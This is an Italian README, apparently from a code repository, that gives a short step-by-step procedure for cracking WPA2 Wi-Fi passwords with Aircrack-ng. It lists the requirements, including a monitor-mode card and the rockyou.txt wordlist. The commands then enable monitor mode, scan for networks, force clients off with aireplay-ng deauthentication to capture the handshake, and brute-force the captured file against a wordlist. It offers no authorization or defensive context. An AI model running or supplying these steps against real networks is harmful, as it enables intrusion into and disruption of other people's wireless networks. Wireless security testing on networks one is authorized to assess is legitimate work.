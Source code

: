 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. Abilitare la modalità monitor sulla scheda di rete

> $ airmon-ng list
> $ airmon-ng start <nome interfaccia>

2. Scansionare le reti disponibili con **Airodump-NG**

> $ airodump-ng <nome interfaccia>

3. Utilizzare **Airodump-NG** e **Aireplay-NG** per catturare l'handshake
### Terminale 1 (Airodump):
> $ airodump-ng -c <channel> --bssid <bssid> -w <nome-file> <nome interfaccia>
### Terminale 2 (Aireplay):
> $ aireplay-ng -0 <numero attacchi> -a <bssid> <nome interfaccia>

4. Crackare il file **.CAP** contentente l'handshake tramite **Aircrack-NG** e la **wordlist.txt** scelta
> $ aircrack-ng -a 2 -b <bssid> -w <worldlist.txt> <file .cap>